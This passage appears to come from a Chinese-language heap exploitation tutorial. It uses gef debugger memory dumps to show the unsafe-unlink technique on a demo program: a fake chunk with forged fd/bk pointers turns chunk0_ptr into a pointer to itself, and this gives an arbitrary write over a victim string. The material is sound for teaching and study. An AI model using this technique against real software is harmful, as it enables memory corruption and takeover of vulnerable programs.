 ```text
gef➤  x/40gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000091  <-- chunk 0
0x602010:   0x0000000000000000  0x0000000000020ff1  <-- fake chunk P
0x602020:   0x0000000000601058  0x0000000000601060      <-- fd, bk pointer
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000080  0x0000000000000090  <-- chunk 1 [be freed]
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000000000
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000000000
0x6020e0:   0x0000000000000000  0x0000000000000000
0x6020f0:   0x0000000000000000  0x0000000000000000
0x602100:   0x0000000000000000  0x0000000000000000
0x602110:   0x0000000000000000  0x0000000000000000
0x602120:   0x0000000000000000  0x0000000000020ee1  <-- top chunk
0x602130:   0x0000000000000000  0x0000000000000000
gef➤  x/5gx 0x601058
0x601058:   0x0000000000000000  0x00007ffff7dd2540  <-- fake chunk FD
0x601068:   0x0000000000000000  0x0000000000601058      <-- bk pointer
0x601078:   0x0000000000000000
gef➤  x/5gx 0x601060
0x601060:   0x00007ffff7dd2540  0x0000000000000000  <-- fake chunk BK
0x601070:   0x0000000000601058  0x0000000000000000      <-- fd pointer
0x601080:   0x0000000000000000
gef➤  x/gx chunk0_ptr
0x601058:   0x0000000000000000
gef➤  x/gx chunk0_ptr[3]
0x601058:   0x0000000000000000
```

所以，修改 `chunk0_ptr[3]` 就等于修改 `chunk0_ptr`：

```text
gef➤  x/5gx 0x601058
0x601058:   0x0000000000000000  0x00007ffff7dd2540
0x601068:   0x0000000000000000  0x00007fffffffdc70  <-- chunk0_ptr[3]
0x601078:   0x0000000000000000
gef➤  x/gx chunk0_ptr
0x7fffffffdc70: 0x4141414141414141
```

这时 `chunk0_ptr` 就指向了 victim_string，修改它：

```text
gef➤  x/gx chunk0_ptr
0x7fffffffdc70: 0x4242424242424242
```

成功达成修改任意地址的成就。

